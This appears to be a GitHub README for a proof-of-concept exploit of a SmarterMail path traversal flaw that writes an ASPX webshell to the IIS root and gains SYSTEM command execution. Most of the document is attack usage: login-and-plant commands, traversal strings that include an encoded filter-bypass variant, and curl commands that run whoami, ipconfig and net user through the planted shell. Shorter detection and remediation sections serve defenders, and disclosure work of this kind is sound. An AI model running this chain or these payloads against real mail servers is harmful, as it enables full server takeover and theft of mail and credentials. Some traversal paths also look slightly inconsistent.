

<div align="center">

# CVE-2026-126967

### SmarterMail — File Storage API Path Traversal to SYSTEM RCE


</div>

---

## Overview

The SmarterMail `FileStorageController` accepts a caller-supplied file name and constructs the destination path by joining it with the per-account storage root **without normalizing or bounding the result**. An authenticated low-privilege user can embed `..\..\` sequences to write arbitrary files outside the mail-data directory. Because IIS runs as `NT AUTHORITY\SYSTEM`, writing an ASPX webshell to the site root yields unauthenticated command execution at the highest possible Windows privilege level.

| Field | Value |
|---|---|
| **CVE** | CVE-2026-126967 |
| **CVSS 3.1** | `8.8 High` — `AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:H` |
| **CWE** | CWE-22 (Path Traversal) |
| **Affected** | SmarterMail all builds < 9735 |
| **Fixed** | Build 9735 |
| **ZDI** | [ZDI-26-994](https://www.zerodayinitiative.com/advisories/ZDI-26-994/) |
| **Auth Required** | Low — any valid SmarterMail account |
| **Disclosed** | 2026-11-18 |

---

## Vulnerability Details

The `FileStorageController.Upload` action accepts a `fileName` parameter. The controller prepends the user's mail-data root but performs no path canonicalization:

```
destination = Path.Combine(userStorageRoot, fileName)
// fileName = "..\..\..\..\inetpub\wwwroot\shell.aspx"
// destination = "C:\SmarterMail\Domains\..\..\inetpub\wwwroot\shell.aspx"
```

`Path.Combine` on Windows does not resolve `..` sequences — the resulting path resolves to the IIS web root. The API accepts any file extension including `.aspx`, turning the upload into a webshell plant. IIS then serves and executes the ASPX page as SYSTEM.

---

## Attack Flow



---

## PoC Usage

> **Warning:** Authorized testing and isolated lab environments only. The webshell is accessible without credentials after planting — ensure the target is isolated.

### Setup

```bash
pip install -r requirements.txt
# requirements.txt: requests>=2.31.0
```

### Step 1 — Fingerprint (no credentials required)

Check target version without logging in:

```bash
python3 poc.py -u http://mail.example.com --check
```

Expected output:
```
[*] target: http://mail.example.com
[*] HTTP 200, build=9720 (< 9735 likely vulnerable)
```

### Step 2 — Plant the webshell (default: JSON upload mode)

```bash
python3 poc.py -u http://mail.example.com \
               -U user@example.com \
               -P password123 \
               --write
```

Expected output:
```
[*] target: http://mail.example.com
[*] HTTP 200, build=9720 (< 9735 likely vulnerable)
[*] logging in as user@example.com
[+] token: eyJhbGciOiJIUzI1NiJ9...
[*] traversal='..\..\..\InetPub\SmarterMail\' mode=json -> HTTP 200
[*] checking for webshell...
[!] VULNERABLE — running as: NT AUTHORITY\SYSTEM
    shell: http://mail.example.com/cve126967.aspx?c=<cmd>
```

### Step 3 — Execute commands via webshell

```bash
# After successful plant, the webshell accepts ?c= parameter:
curl "http://mail.example.com/cve126967.aspx?c=whoami"
# Output: CVE-2026-126967:NT AUTHORITY\SYSTEM

curl "http://mail.example.com/cve126967.aspx?c=ipconfig"
curl "http://mail.example.com/cve126967.aspx?c=net+user"
```

### Upload modes

The PoC tries three upload modes to cover different SmarterMail versions:

```bash
# JSON body (default — works on most builds)
python3 poc.py -u http://mail.example.com -U user@example.com -P pass --write --mode json

# multipart/form-data upload
python3 poc.py -u http://mail.example.com -U user@example.com -P pass --write --mode form

# Raw PUT with X-File-Name header
python3 poc.py -u http://mail.example.com -U user@example.com -P pass --write --mode raw
```

### Available flags

| Flag | Description |
|---|---|
| `-u URL` | SmarterMail base URL (required) |
| `-U EMAIL` | Account email address |
| `-P PASSWORD` | Account password |
| `--check` | Fingerprint only — no login, no write |
| `--write` | Attempt webshell plant |
| `--mode json\|form\|raw` | Upload content type (default: `json`) |
| `--proxy URL` | HTTP proxy (e.g. `http://127.0.0.1:8080` for Burp) |

### Traversal candidates

The PoC tries multiple path traversal strings to handle different install locations:

| Traversal path | Resolves to |
|---|---|
| `..\..\..\InetPub\SmarterMail\` | Typical SmarterMail IIS root |
| `..\..\..\...\inetpub\wwwroot\` | Default IIS root |
| `..%5C..%5C..%5CInetPub%5CSmarterMail%5C` | URL-encoded — filter bypass |
| `../../../InetPub/SmarterMail/` | Forward slash variant |

### Expected output — patched build

```
[*] target: http://mail.example.com
[*] HTTP 200, build=9735 (patched)
[*] attempting traversal '..\..\..\InetPub\SmarterMail\' mode=json -> HTTP 400
[-] upload did not return 2xx on any traversal
[+] NOT vulnerable
```

---

## Detection

| Indicator | Notes |
|---|---|
| File Storage API calls with `..` in path | IIS log: `POST /api/v1/filestorage/upload` with encoded traversal in body |
| Unexpected `.aspx` files in IIS root | Scheduled task or FIM alert on `C:\inetpub\wwwroot\*.aspx` |
| `w3wp.exe` spawning `cmd.exe` / `powershell.exe` | EDR process creation alert |
| New files in `C:\SmarterMail\` outside `Domains\` | File integrity monitoring |

---

## Impact

SYSTEM-level RCE on the mail server via an unauthenticated webshell accessible to anyone who can reach port 80/443. A compromised mail server typically holds email credentials, PII, internal communications, and can be used as a pivot point into the broader corporate network.

---

## Remediation

Upgrade to **SmarterMail build 9735** or later. The fix adds `Path.GetFullPath` canonicalization and validates the result stays within the user's storage root before writing.

| Action | Detail |
|---|---|
| Upgrade SmarterMail | Build 9735 or later from smartertools.com |
| Scan for planted shells | Search IIS root for `.aspx` files modified recently |
| Restrict File Storage API | Block `/api/v1/filestorage` from untrusted IP ranges |
| Monitor IIS root | FIM alert on new `.aspx` / `.ashx` files |

---

## References

- ZDI-26-994: https://www.zerodayinitiative.com/advisories/ZDI-26-994/
- CVE Record: https://www.cve.org/CVERecord?id=CVE-2026-126967
- SmarterTools: https://www.smartertools.com/smartermail/release-notes

---

> **Disclaimer:** For authorized security research and controlled lab use only. MIT License.
